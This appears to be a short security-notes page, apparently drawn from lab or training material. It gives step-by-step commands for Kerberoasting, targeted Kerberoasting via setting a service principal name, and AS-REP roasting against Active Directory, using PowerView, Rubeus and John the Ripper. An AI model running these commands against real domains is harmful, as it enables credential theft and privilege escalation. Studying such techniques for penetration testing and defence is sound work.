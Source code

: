 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Kerberoast and Variants
---
```


## Kerberoasting

1. Find Service Accounts
```bash
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-DomainUser –SPN
```
2. Escalation via Service Accounts - Use Rubeus to request a TGS
```bash
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```
3. Crack Ticket
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-
pass.txt C:\AD\Tools\hashes.txt
```

## Targeted Kerberoasting

1. Find "Write" Permissions
```bash
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
2. Find SPN
```bash
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

3. Set-SPN
```bash
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
    ```

4. Kerberoasting
```bash
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

## AS-REP Roasting

Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```bash
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```

---

[back](/adprivesc.html)